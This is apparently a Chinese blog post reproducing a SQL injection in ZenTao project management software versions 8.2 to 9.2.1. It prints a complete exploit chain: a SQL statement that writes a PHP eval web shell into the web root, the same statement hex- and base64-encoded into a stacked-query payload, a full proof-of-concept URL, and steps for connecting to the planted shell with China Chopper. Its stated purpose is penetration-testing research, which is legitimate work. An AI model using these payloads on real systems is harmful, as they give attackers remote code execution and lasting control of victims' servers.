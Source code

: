 ```yaml
---
title: 禅道SQL注入-漏洞复现
layout: post
post-image: /assets/images/bg.jpg
description: 禅道项目管理系统是一款常见的项目管理系统，无论是在渗透测试项目中，还是在攻防对抗中可能会经常遇到。因此，研究和复现禅道项目管理系统历史版本漏洞，具有一定价值意义。
tags:
- 漏洞复现
- 渗透测试
- 免杀
---
```


# 禅道SQL注入-漏洞复现    

​                                                                                                                       ——雷豹000     <!--各自的代号 如我的XF010101-->

## 前言

禅道项目管理系统是一款常见的项目管理系统，无论是在渗透测试项目中，还是在攻防对抗中可能会经常遇到。因此，研究和复现禅道项目管理系统历史版本漏洞，具有一定价值意义。    <!--主要是阐述存在的问题，将问题描述清楚，可适当引出解决方案-->

## 漏洞简介

受影响的版本：禅道8.2-9.2.1

环境下载地址：https://www.zentao.net/download/80035.html

## 复现详情

首先，在服务器上搭建禅道项目管理系统，搭建完成后，访问地址，页面如下 
![Inked图1_LI](/assets/images/20210806/Inked图1_LI.jpg)

访问http://x.x.x.x./zentao/index.php?mode=getconfig 获取版本信息 该版本存在漏洞

![Inked图2_LI](/assets/images/20210806/Inked图2_LI.jpg)

随便访问一个不存在的路径http://x.x.x.x/zentao/111111 ，报错显示文件路径信息
![Inked图3_LI](/assets/images/20210806/Inked图3_LI.jpg)

根据报错回显的路径，构造将一句话木马写入文件中的SQL语句

 `select'<?php @eval($_POST[1])?>' into outfile'C:/Users/Administrator/Downloads/xampp/zentao/www/bb.php'`

ASCIIhex加密》

`73656c656374273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6527433a2f55736572732f41646d696e6973747261746f722f446f776e6c6f6164732f78616d70702f7a656e74616f2f7777772f62622e70687027`

继续将加密的语句放入下列语句中  前面加上0x

`{"orderBy":"order limit 1;SET @SQL=0x73656c656374273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6527433a2f55736572732f41646d696e6973747261746f722f446f776e6c6f6164732f78616d70702f7a656e74616f2f7777772f62622e70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}`

base64加密》

`eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDI3M2MzZjcwNjg3MDIwNDA2NTc2NjE2YzI4MjQ1ZjUwNGY1MzU0NWIzMTVkMjkzZjNlMjcyMDY5NmU3NDZmMjA2Zjc1NzQ2NjY5NmM2NTI3NDMzYTJmNTU3MzY1NzI3MzJmNDE2NDZkNjk2ZTY5NzM3NDcyNjE3NDZmNzIyZjQ0NmY3NzZlNmM2ZjYxNjQ3MzJmNzg2MTZkNzA3MDJmN2E2NTZlNzQ2MTZmMmY3Nzc3NzcyZjYyNjIyZTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9`

构造poc地址：

`http://x.x.x.x/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDI3M2MzZjcwNjg3MDIwNDA2NTc2NjE2YzI4MjQ1ZjUwNGY1MzU0NWIzMTVkMjkzZjNlMjcyMDY5NmU3NDZmMjA2Zjc1NzQ2NjY5NmM2NTI3NDMzYTJmNTU3MzY1NzI3MzJmNDE2NDZkNjk2ZTY5NzM3NDcyNjE3NDZmNzIyZjQ0NmY3NzZlNmM2ZjYxNjQ3MzJmNzg2MTZkNzA3MDJmN2E2NTZlNzQ2MTZmMmY3Nzc3NzcyZjYyNjIyZTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9`

访问地址，添加referer
![Inked图4_LI](/assets/images/20210806/Inked图4_LI.jpg)

此时一句话木马已写入，在服务器文件中可查看到
![图5](/assets/images/20210806/图5.png)

中国菜刀连接http://x.x.x.x/zentao/bb.php  密码 1 ，连接成功

![Inked图6_LI](/assets/images/20210806/Inked图6_LI.jpg)

